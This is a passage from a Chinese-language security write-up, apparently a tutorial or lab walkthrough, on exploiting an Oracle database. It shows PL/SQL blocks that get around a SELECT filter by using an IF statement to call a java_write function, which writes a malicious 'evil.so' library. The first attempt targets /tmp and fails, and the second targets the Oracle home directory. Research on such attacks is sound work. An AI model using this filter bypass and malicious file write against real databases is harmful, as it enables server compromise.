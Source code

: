 接下来调用这个 java\_write 写入恶意 so

```plain
BEGIN
if (java_write('/tmp/evil.so') = 'ok')
then dbms_output.put_line('Valid');
else dbms_output.put_line('Invalid');
end if;
end;
```

在这里 select 被过滤了，因此我们需要使用别的语句去调用方法，这里用的是 if 语句。

[![](assets/1710899076-0a6bf6a076f03de46d18582959c0919b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101358-08386f78-d5df-1.png)

在这里报错了，原因是目录问题，我们只可以写入 ORCLE\_HOME, 而其他文件位置我们是不知道的。

[![](assets/1710899076-a4d8c19f780df4ac1f27be7b9792b310.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101405-0c8c19da-d5df-1.png)

改为

```plain
BEGIN
if (java_write('/opt/oracle/product/23c/dbhomeFree/evil.so') = 'ok')
then dbms_output.put_line('Valid');
else dbms_output.put_line('Invalid');
end if;
end;
```
